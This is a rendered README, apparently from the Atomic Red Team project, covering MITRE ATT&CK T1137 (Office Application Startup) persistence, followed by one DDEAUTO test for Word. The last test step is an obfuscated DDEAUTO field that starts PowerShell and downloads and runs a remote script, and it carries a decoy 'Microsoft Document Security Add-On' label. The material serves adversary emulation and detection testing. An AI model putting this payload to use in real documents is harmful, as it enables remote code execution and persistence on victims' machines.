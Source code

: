 <div class="Box-body readme blob instapaper_body js-code-block-container" id="readme">
    <article class="markdown-body entry-content p-3 p-md-6" itemprop="text"><h1><a aria-hidden="true" class="anchor" href="#t1137---office-application-startup" id="user-content-t1137---office-application-startup"><svg aria-hidden="true" class="octicon octicon-link" height="16" version="1.1" viewBox="0 0 16 16" width="16"><path d="M4 9h1v1H4c-1.5 0-3-1.69-3-3.5S2.55 3 4 3h4c1.45 0 3 1.69 3 3.5 0 1.41-.91 2.72-2 3.25V8.59c.58-.45 1-1.27 1-2.09C10 5.22 8.98 4 8 4H4c-.98 0-2 1.22-2 2.5S3 9 4 9zm9-3h-1v1h1c1 0 2 1.22 2 2.5S13.98 12 13 12H9c-.98 0-2-1.22-2-2.5 0-.83.42-1.64 1-2.09V6.25c-1.09.53-2 1.84-2 3.25C6 11.31 7.55 13 9 13h4c1.45 0 3-1.69 3-3.5S14.5 6 13 6z" fill-rule="evenodd"></path></svg></a>T1137 - Office Application Startup</h1>
<h2><a aria-hidden="true" class="anchor" href="#description-from-attck" id="user-content-description-from-attck"><svg aria-hidden="true" class="octicon octicon-link" height="16" version="1.1" viewBox="0 0 16 16" width="16"><path d="M4 9h1v1H4c-1.5 0-3-1.69-3-3.5S2.55 3 4 3h4c1.45 0 3 1.69 3 3.5 0 1.41-.91 2.72-2 3.25V8.59c.58-.45 1-1.27 1-2.09C10 5.22 8.98 4 8 4H4c-.98 0-2 1.22-2 2.5S3 9 4 9zm9-3h-1v1h1c1 0 2 1.22 2 2.5S13.98 12 13 12H9c-.98 0-2-1.22-2-2.5 0-.83.42-1.64 1-2.09V6.25c-1.09.53-2 1.84-2 3.25C6 11.31 7.55 13 9 13h4c1.45 0 3-1.69 3-3.5S14.5 6 13 6z" fill-rule="evenodd"></path></svg></a><a href="https://attack.mitre.org/wiki/Technique/T1137" rel="nofollow">Description from ATT&amp;CK</a></h2>
<blockquote>Microsoft Office is a fairly common application suite on Windows-based operating systems within an enterprise network. There are multiple mechanisms that can be used with Office for persistence when an Office-based application is started.
<h3><a aria-hidden="true" class="anchor" href="#office-template-macros" id="user-content-office-template-macros"><svg aria-hidden="true" class="octicon octicon-link" height="16" version="1.1" viewBox="0 0 16 16" width="16"><path d="M4 9h1v1H4c-1.5 0-3-1.69-3-3.5S2.55 3 4 3h4c1.45 0 3 1.69 3 3.5 0 1.41-.91 2.72-2 3.25V8.59c.58-.45 1-1.27 1-2.09C10 5.22 8.98 4 8 4H4c-.98 0-2 1.22-2 2.5S3 9 4 9zm9-3h-1v1h1c1 0 2 1.22 2 2.5S13.98 12 13 12H9c-.98 0-2-1.22-2-2.5 0-.83.42-1.64 1-2.09V6.25c-1.09.53-2 1.84-2 3.25C6 11.31 7.55 13 9 13h4c1.45 0 3-1.69 3-3.5S14.5 6 13 6z" fill-rule="evenodd"></path></svg></a>Office Template Macros</h3>
<p>Microsoft Office contains templates that are part of common Office applications and are used to customize styles. The base templates within the application are used each time an application starts. (Citation: Microsoft Change Normal Template)</p>
<p>Office Visual Basic for Applications (VBA) macros (Citation: MSDN VBA in Office) can inserted into the base templated and used to execute code when the respective Office application starts in order to obtain persistence. Examples for both Word and Excel have been discovered and published. By default, Word has a Normal.dotm template created that can be modified to include a malicious macro. Excel does not have a template file created by default, but one can be added that will automatically be loaded. (Citation: enigma0x3 normal.dotm) (Citation: Hexacorn Office Template Macros)</p>
<p>Word Normal.dotm location:<code>C:\Users(username)\AppData\Roaming\Microsoft\Templates\Normal.dotm</code></p>
<p>Excel Personal.xlsb location:<code>C:\Users(username)\AppData\Roaming\Microsoft\Excel\XLSTART\PERSONAL.XLSB</code></p>
<p>An adversary may need to enable macros to execute unrestricted depending on the system or enterprise security policy on use of macros.</p>
<h3><a aria-hidden="true" class="anchor" href="#office-test" id="user-content-office-test"><svg aria-hidden="true" class="octicon octicon-link" height="16" version="1.1" viewBox="0 0 16 16" width="16"><path d="M4 9h1v1H4c-1.5 0-3-1.69-3-3.5S2.55 3 4 3h4c1.45 0 3 1.69 3 3.5 0 1.41-.91 2.72-2 3.25V8.59c.58-.45 1-1.27 1-2.09C10 5.22 8.98 4 8 4H4c-.98 0-2 1.22-2 2.5S3 9 4 9zm9-3h-1v1h1c1 0 2 1.22 2 2.5S13.98 12 13 12H9c-.98 0-2-1.22-2-2.5 0-.83.42-1.64 1-2.09V6.25c-1.09.53-2 1.84-2 3.25C6 11.31 7.55 13 9 13h4c1.45 0 3-1.69 3-3.5S14.5 6 13 6z" fill-rule="evenodd"></path></svg></a>Office Test</h3>
<p>A Registry location was found that when a DLL reference was placed within it the corresponding DLL pointed to by the binary path would be executed every time an Office application is started (Citation: Hexacorn Office Test)</p>
<p><code>HKEY_CURRENT_USER\Software\Microsoft\Office test\Special\Perf</code></p>
<h3><a aria-hidden="true" class="anchor" href="#add-ins" id="user-content-add-ins"><svg aria-hidden="true" class="octicon octicon-link" height="16" version="1.1" viewBox="0 0 16 16" width="16"><path d="M4 9h1v1H4c-1.5 0-3-1.69-3-3.5S2.55 3 4 3h4c1.45 0 3 1.69 3 3.5 0 1.41-.91 2.72-2 3.25V8.59c.58-.45 1-1.27 1-2.09C10 5.22 8.98 4 8 4H4c-.98 0-2 1.22-2 2.5S3 9 4 9zm9-3h-1v1h1c1 0 2 1.22 2 2.5S13.98 12 13 12H9c-.98 0-2-1.22-2-2.5 0-.83.42-1.64 1-2.09V6.25c-1.09.53-2 1.84-2 3.25C6 11.31 7.55 13 9 13h4c1.45 0 3-1.69 3-3.5S14.5 6 13 6z" fill-rule="evenodd"></path></svg></a>Add-ins</h3>
<p>Office add-ins can be used to add functionality to Office programs. (Citation: Microsoft Office Add-ins)</p>
<p>Add-ins can also be used to obtain persistence because they can be set to execute code when an Office application starts. There are different types of add-ins that can be used by the various Office products; including Word/Excel add-in Libraries (WLL/XLL), VBA add-ins, Office Component Object Model (COM) add-ins, automation add-ins, VBA Editor (VBE), Visual Studio Tools for Office (VSTO) add-ins, and Outlook add-ins. (Citation: MRWLabs Office Persistence Add-ins)(Citation: FireEye Mail CDS 2018)</p>
<h3><a aria-hidden="true" class="anchor" href="#outlook-rules-forms-and-home-page" id="user-content-outlook-rules-forms-and-home-page"><svg aria-hidden="true" class="octicon octicon-link" height="16" version="1.1" viewBox="0 0 16 16" width="16"><path d="M4 9h1v1H4c-1.5 0-3-1.69-3-3.5S2.55 3 4 3h4c1.45 0 3 1.69 3 3.5 0 1.41-.91 2.72-2 3.25V8.59c.58-.45 1-1.27 1-2.09C10 5.22 8.98 4 8 4H4c-.98 0-2 1.22-2 2.5S3 9 4 9zm9-3h-1v1h1c1 0 2 1.22 2 2.5S13.98 12 13 12H9c-.98 0-2-1.22-2-2.5 0-.83.42-1.64 1-2.09V6.25c-1.09.53-2 1.84-2 3.25C6 11.31 7.55 13 9 13h4c1.45 0 3-1.69 3-3.5S14.5 6 13 6z" fill-rule="evenodd"></path></svg></a>Outlook Rules, Forms, and Home Page</h3>
<p>A variety of features have been discovered in Outlook that can be abused to obtain persistence, such as Outlook rules, forms, and Home Page.(Citation: SensePost Ruler GitHub)</p>
<p>Outlook rules allow a user to define automated behavior to manage email messages. A benign rule might, for example, automatically move an email to a particular folder in Outlook if it contains specific words from a specific sender. Malicious Outlook rules can be created that can trigger code execution when an adversary sends a specifically crafted email to that user.(Citation: SilentBreak Outlook Rules)</p>
<p>Outlook forms are used as templates for presentation and functionality in Outlook messages. Custom Outlook Forms can be created that will execute code when a specifically crafted email is sent by an adversary utilizing the same custom Outlook form.(Citation: SensePost Outlook Forms)</p>
<p>Outlook Home Page is a legacy feature used to customize the presentation of Outlook folders. This feature allows for an internal or external URL to be loaded and presented whenever a folder is opened. A malicious HTML page can be crafted that will execute code when loaded by Outlook Home Page.(Citation: SensePost Outlook Home Page)</p>
<p>To abuse these features, an adversary requires prior access to the user’s Outlook mailbox, either via an Exchange/OWA server or via the client application. Once malicious rules, forms, or Home Pages have been added to the user’s mailbox, they will be loaded when Outlook is started. Malicious Home Pages will execute when the right Outlook folder is loaded/reloaded while malicious rules and forms will execute when an adversary sends a specifically crafted email to the user.(Citation: SilentBreak Outlook Rules)(Citation: SensePost Outlook Forms)(Citation: SensePost Outlook Home Page)</p></blockquote><p></p>
<h2><a aria-hidden="true" class="anchor" href="#atomic-tests" id="user-content-atomic-tests"><svg aria-hidden="true" class="octicon octicon-link" height="16" version="1.1" viewBox="0 0 16 16" width="16"><path d="M4 9h1v1H4c-1.5 0-3-1.69-3-3.5S2.55 3 4 3h4c1.45 0 3 1.69 3 3.5 0 1.41-.91 2.72-2 3.25V8.59c.58-.45 1-1.27 1-2.09C10 5.22 8.98 4 8 4H4c-.98 0-2 1.22-2 2.5S3 9 4 9zm9-3h-1v1h1c1 0 2 1.22 2 2.5S13.98 12 13 12H9c-.98 0-2-1.22-2-2.5 0-.83.42-1.64 1-2.09V6.25c-1.09.53-2 1.84-2 3.25C6 11.31 7.55 13 9 13h4c1.45 0 3-1.69 3-3.5S14.5 6 13 6z" fill-rule="evenodd"></path></svg></a>Atomic Tests</h2>
<ul>
<li><a href="#atomic-test-1---ddeauto">Atomic Test #1 - DDEAUTO</a></li>
</ul>
<br/>
<h2><a aria-hidden="true" class="anchor" href="#atomic-test-1---ddeauto" id="user-content-atomic-test-1---ddeauto"><svg aria-hidden="true" class="octicon octicon-link" height="16" version="1.1" viewBox="0 0 16 16" width="16"><path d="M4 9h1v1H4c-1.5 0-3-1.69-3-3.5S2.55 3 4 3h4c1.45 0 3 1.69 3 3.5 0 1.41-.91 2.72-2 3.25V8.59c.58-.45 1-1.27 1-2.09C10 5.22 8.98 4 8 4H4c-.98 0-2 1.22-2 2.5S3 9 4 9zm9-3h-1v1h1c1 0 2 1.22 2 2.5S13.98 12 13 12H9c-.98 0-2-1.22-2-2.5 0-.83.42-1.64 1-2.09V6.25c-1.09.53-2 1.84-2 3.25C6 11.31 7.55 13 9 13h4c1.45 0 3-1.69 3-3.5S14.5 6 13 6z" fill-rule="evenodd"></path></svg></a>Atomic Test #1 - DDEAUTO</h2>
<p>TrustedSec - Unicorn - <a href="https://github.com/trustedsec/unicorn">https://github.com/trustedsec/unicorn</a></p>
<p>SensePost DDEAUTO - <a href="https://sensepost.com/blog/2017/macro-less-code-exec-in-msword/" rel="nofollow">https://sensepost.com/blog/2017/macro-less-code-exec-in-msword/</a></p>
<p>Word VBA Macro</p>
<p><a href="https://github.com/redcanaryco/atomic-red-team/tree/master/ARTifacts/Adversary/Dragons_Tail">Dragon's Tail</a></p>
<p><strong>Supported Platforms:</strong> Windows</p>
<h4><a aria-hidden="true" class="anchor" href="#run-it-with-these-steps" id="user-content-run-it-with-these-steps"><svg aria-hidden="true" class="octicon octicon-link" height="16" version="1.1" viewBox="0 0 16 16" width="16"><path d="M4 9h1v1H4c-1.5 0-3-1.69-3-3.5S2.55 3 4 3h4c1.45 0 3 1.69 3 3.5 0 1.41-.91 2.72-2 3.25V8.59c.58-.45 1-1.27 1-2.09C10 5.22 8.98 4 8 4H4c-.98 0-2 1.22-2 2.5S3 9 4 9zm9-3h-1v1h1c1 0 2 1.22 2 2.5S13.98 12 13 12H9c-.98 0-2-1.22-2-2.5 0-.83.42-1.64 1-2.09V6.25c-1.09.53-2 1.84-2 3.25C6 11.31 7.55 13 9 13h4c1.45 0 3-1.69 3-3.5S14.5 6 13 6z" fill-rule="evenodd"></path></svg></a>Run it with these steps!</h4>
<ol>
<li>
<p>Open Word</p>
</li>
<li>
<p>Insert tab -&gt; Quick Parts -&gt; Field</p>
</li>
<li>
<p>Choose = (Formula) and click ok.</p>
</li>
<li>
<p>Once the field is inserted, you should now see "!Unexpected End of Formula"</p>
</li>
<li>
<p>Right-click the Field, choose "Toggle Field Codes"</p>
</li>
<li>
<p>Paste in the code from Unicorn or SensePost</p>
</li>
<li>
<p>Save the Word document.</p>
</li>
<li>
<p>DDEAUTO c:\windows\system32\cmd.exe "/k calc.exe"</p>
</li>
<li>
<p>DDEAUTO "C:\Programs\Microsoft\Office\MSWord\..\..\..\..\windows\system32\{ QUOTE 87 105 110 100 111 119 115 80 111 119 101 114 83 104 101 108 108 }\v1.0\{ QUOTE 112 111 119 101 114 115 104 101 108 108 46 101 120 101 } -w 1 -nop { QUOTE 105 101 120 }(New-Object System.Net.WebClient).DownloadString('http:///download.ps1'); # " "Microsoft Document Security Add-On"</p>
</li>
</ol>
<br/>
</article>
  </div>